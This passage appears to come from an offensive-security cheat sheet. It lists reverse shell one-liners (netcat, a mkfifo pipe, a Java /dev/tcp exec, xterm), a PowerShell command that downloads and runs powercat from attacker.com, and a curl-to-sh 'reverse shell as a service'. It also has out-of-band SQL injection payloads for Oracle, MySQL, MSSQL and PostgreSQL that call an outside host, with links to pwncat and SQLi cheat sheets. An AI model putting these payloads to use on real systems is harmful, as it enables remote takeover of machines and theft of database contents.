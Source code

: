 ```http://localhost:9001/2018-06-01/runtime/invocation/next```
<br>```nc -e /bin/sh 10.0.0.1 1234```
<br>```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

<br># Java
<br>```r = Runtime.getRuntime()```
<br>```p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])```
<br>```p.waitFor()```

<br># xterm
<br>```xterm -display 10.0.0.1:1```
<br>```Xnest :1```
<br>```xhost +targetip```

<br># powershell (without download)
<br>```echo IEX(New-Object Net.WebClient).DownloadString("http://attacker.com:8442/powercat.ps1") | powershell -noprofile; powercat -c attacker.com -p 8443 -e cmd```

https://reverse-shell.sh/
<br># Reverse Shell as a Service
<br>```nc -l 1337```
<br>```curl https://reverse-shell.sh/yourip:1337 | sh```

https://github.com/calebstewart/pwncat
<br># pwncat is a post-exploitation platform for Linux targets.

### SQLi (SQL Injection)
https://arxiv.org/abs/1303.3047
<br># This paper describes an advanced SQL injection technique where DNS resolution process is exploited for retrieval of malicious SQL query results.

https://livesql.oracle.com
<br># Learn and share SQL. Running on Oracle Database 19c.

https://www.db-fiddle.com
<br># An online SQL database playground for testing, debugging and sharing SQL snippets.

http://sqlfiddle.com/
<br># Application for testing and sharing SQL queries.

<br># Oracle
<br>```'||(SELECT%20UTL_INADDR.GET_HOST_ADDRESS('xpto.example.com'))||'```
<br>```'||(SELECT%20UTL_HTTP.REQUEST('http://xpto.example.com')%20FROM%20DUAL)||'```
<br>```'||(SELECT%20HTTPURITYPE('http://xpto.example.com').GETCLOB()%20FROM%20DUAL)||'```
<br>```'||(SELECT%20DBMS_LDAP.INIT(('xpto.example.com',80)%20FROM%20DUAL)||'```

<br># MySQL
<br>```'||(SELECT%20LOAD_FILE('\\xpto.example.com'))||'```

<br># Microsoft SQL Server
<br>```'+;EXEC('master..xp_dirtree"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_fileexist"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_subdirs"\\xpto.example.com\"');+'```

<br># PostgreSQL
<br>```'||;COPY%20users(names)%20FROM%20'\\xpto.example.com\';||'```

https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet
<br># This repository contains a advanced methodology of all types of SQL Injection.

https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
```